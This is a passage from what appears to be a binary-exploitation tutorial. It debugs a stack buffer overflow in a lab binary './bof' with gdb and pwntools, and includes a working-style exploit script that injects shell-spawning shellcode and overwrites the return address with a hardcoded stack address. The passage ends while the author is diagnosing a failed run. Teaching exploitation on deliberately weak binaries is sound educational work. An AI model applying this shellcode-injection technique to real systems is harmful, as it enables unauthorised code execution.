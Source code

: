 ```c
Starting program: ./bof 
What are you going to say?
AAAAAAAA
Thank you, have a nice day!

Breakpoint 1, 0x0000000000401190 in main ()
...
gef➤  grep AAAAAAAA
[+] Searching 'AAAAAAAA' in memory
[+] In '[heap]'(0x405000-0x426000), permission=rw-
  0x4056b0 - 0x4056ba  →   "AAAAAAAA\n" 
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rwx
  0x7fffffffe010 - 0x7fffffffe018  →   "AAAAAAAA" 

```

So we see that our input is stored at address `0x7fffffffe010`. So let's chuck that into our exploit, and it should work.

```c
$ python exploit-x86_64.py
[*] './bof'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Starting local process './bof': pid 63543
[*] Switching to interactive mode
What are you going to say?
Thank you, have a nice day!
[*] Got EOF while reading in interactive
$ ls
[*] Process './bof' stopped with exit code -11 (SIGSEGV) (pid 63543)
[*] Got EOF while sending in interactive

```

Ah, it didn't seem to work. What's happened? Let's attach this to gdb, and figure out the reason

{% code title="exploit.py" %}
```c
from pwn import *

e = context.binary = ELF("./bof")
p = process(e.path)
libc = e.libc

input("Waiting....")
shellcode = asm(shellcraft.sh())
payload = shellcode
payload += b"A"*(72 - len(shellcode))
payload += p64(0x7fffffffe010)

p.sendline(payload)
p.interactive()
```
{% endcode %}

